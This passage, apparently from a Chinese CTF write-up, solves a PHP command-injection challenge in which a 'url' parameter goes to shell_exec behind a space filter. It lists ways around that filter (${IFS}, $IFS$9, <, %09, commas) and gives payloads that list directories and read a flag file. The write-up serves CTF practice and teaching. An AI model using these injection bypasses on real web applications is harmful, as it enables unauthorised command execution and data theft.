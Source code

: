 根据访问后的页面，我们可以使用get请求来修改url的值，但是代码中使用 `preg_match`函数检查 `$ip`中是否包含空格。如果检测到空格，脚本将终止执行并输出 `nonono`

然后$ip中的代码将被shell_exec执行，最后由echo函数打印出来

先看一下有什么东西

```
${IFS}
$IFS$9
可以用来在linux shell中代替空格（后面那个好像$加任何数字都可以）

<
<>
%20
%09
URL编码

cat,flag.php(用逗号当作空格)
```

```
/?url=ls	   （查看当前目录下有什么）
/?url=ls${IFS}/    (查看根目录下有什么)
```

![1742889443578](image/NSS/1742889443578.png)

在根目录下看到了flag，直接拿

```
/?url=cat${IFS}/flllllaaaaaaggggggg
```

得到flag

# 10.[SWPUCTF 2021 新生赛]ez_unserialize
